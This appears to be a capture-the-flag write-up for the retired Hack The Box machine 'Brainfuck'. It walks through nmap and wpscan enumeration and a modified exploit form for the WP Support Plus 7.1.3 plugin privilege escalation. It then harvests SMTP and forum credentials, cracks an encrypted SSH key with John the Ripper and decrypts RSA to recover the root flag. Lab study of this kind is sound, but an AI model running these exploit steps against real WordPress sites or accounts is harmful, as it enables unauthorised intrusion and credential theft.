 # Brainfuck

This is the write-up for the box Brainfuck that got retired at the 26th August 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.17    brainfuck.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/brainfuck.nmap 10.10.10.17
```

```markdown
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP UIDL RESP-CODES USER PIPELINING AUTH-RESP-CODE CAPA
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: SASL-IR ENABLE LOGIN-REFERRALS IMAP4rev1 more capabilities IDLE ID Pre-login LITERAL+ listed have AUTH=PLAINA0001 OK post-login
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTPS (Port 443)

The Nmap output gives us a subdomain with an interesting name that we will put into our hosts file, too.
Browsing to the web page on the IP address gives us a default nginx installation page.

Browsing to the web page with the DNS name _brainfuck.htb_ gives us a custom WordPress site of the fictional company **Brainfuck Ltd.** with one article that has an email address in it.
> orestis@brainfuck.htb

![WordPress page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_wordpress-1.png)

Enumerate WordPress:
 ```markdown
wpscan --url https://brainfuck.htb --disable-tls-checks
```

The version is 4.7.3 and it found the users _admin_ and _administrator_ and the plugin **WP Support Plus Responsive Ticket System version 7.1.3** is installed.
Looking for vulnerabilities in this plugin we find one:
 ```markdown
searchsploit "WP Support Plus"
```

The vulnerability is called _WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation_ and we modify the exploit code to our needs:
 ```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

We can host this on the _Python SimpleHTTPServer_ and click Login on the form. This will set the session cookies to administrative session cookies and we get logged in on the WordPress page as _admin_.

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_wordpress-2.png)

To get code execution in WordPress we can go into _Appearance --> Editor_ and edit the PHP files normally but in this case all the files are not writable, so this will not work.

As the first article on the page told us something that SMTP integration is ready, we can look into those settings in _Settings --> Easy WP SMTP_.
In here we get the SMTP username that we got before and a masked password. The masked password can be read by looking at the field with the Developer Tools in the browser:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_wordpress-3.png)

These are the credentials for SMTP:
> orestis:kHGuERB29DNiNE

## Checking SMTP (Port 25)

We can use any mail client to connect to the mail server _brainfuck.htb_ with the gathered credentials.
After configuring the mail client we can see the inbox of _Orestis_ and he has two emails. One from _root@brainfuck.htb_ is very interesting because there are credentials for a secret forum:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_mails.png)

```markdown
username: orestis
password: kIEnnfEKJ#9UmdO
```

## Checking the Subdomain on HTTPS (Port 443)

Browsing to the subdomain _sup3rs3cr3t.brainfuck.htb_ we are presented with a **Super Secret Forum** where we can try the gathered credentials.
They work and there are two threads to examine:

The first thread is called **SSH Access** and it tells us that SSH only works with keys.

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-1.png)

The second thread is called **Key** and is the encrypted thread that _Orestis_ is talking about:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-2.png)

They write in a decoded type of language that looks like some kind of cipher that involves the alphabet because there are still whitespaces and numbers like the IP address are not decoded.

### Decoding the messages

Our clue for decoding is that _Orestis_ always ends his messages with the signature _"Orestis - Hacking for fun and profit"_. This is the same method that was used to decipher the **Enigma**.

The [One Time Pad Tool from Rumkin](http://rumkin.com/tools/cipher/otp.php) will help us to get the key.

```markdown
Plaintext: Orestis - Hacking for fun and profit
Encrypted: Pieagnm - Jkoijeg nbw zwx mle grwsnn
```

By comparing the letters and putting them into the tool one by one we get the key.
```markdown
**Decrypt**

Your message:  P i e a g n m J k o i j e g n b w z w x m l e g r w s n n
The pad:       O r e s t i s H a c k i n g f o r f u n a n d p r o f i t
------------------------------------------------------------------------
Key:           B r a i n f u c k m y b r a i n f u c k m y b r a i n f u
```

The key we can decode the text with is:
> fuckmybrain

Now we can use the [Keyed Vigenere Tool from Rumkin](http://rumkin.com/tools/cipher/vigenere-keyed.php) to decode the messages:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-3.png)

This is the most important message:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-4.png)

Lets browse to the URL https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa and download the _id_rsa_ file.

### Decrypting the RSA key

If we look at the RSA key that we got, it is _AES-128-CBC_ encrypted and we need to decrypt it first:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382
```

We can use [sshng2john](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py) to bring this to a format that is crackable:
```markdown
python sshng2john.py id_rsa
```

And then use the password cracking tool **JohnTheRipper** to crack it:
```markdown
john id_rsa.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

After some time we cracked the password for this key:
> 3poulakia!

## Checking SSH (Port 22)

Now SSH login works with the private key and the password:
```markdown
chmod 600 id_rsa

ssh -i id_rsa orestis@10.10.10.17
```

## Privilege Escalation

In the home folder of _Orestis_ there are these three files:
- debug.text
- output.text
- encrypt.sage

Looking at the _encrypt.sage_ file, we can see that it calculates something with the variables **p, q, e, n phi**.
Those are usually used in **RSA Encryption**, so this is some kind of RSA attack.

In this repository there is the script **brainfuck_decrypt.py** that uses the variables from those files to calculate the key.
The 3 lines in _debug.txt_ are the variables for p, q and e.
The number in _output.txt_ is the variable for ct.
```markdown
python brainfuck_decrypt.py
```

After running this, we get the value for pt which stands for Plaintext:
> 24604052029401386049980296953784287079059245867880966944246662849341507003750

This has to get converted into ASCII so we can read it.
```python
pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750
str(hex(pt)[2:-1]).decode('hex')
```

The result is a 32 character long string, which is probably a **MD5 hash**.
This MD5 hash is the content of the root.txt flag!
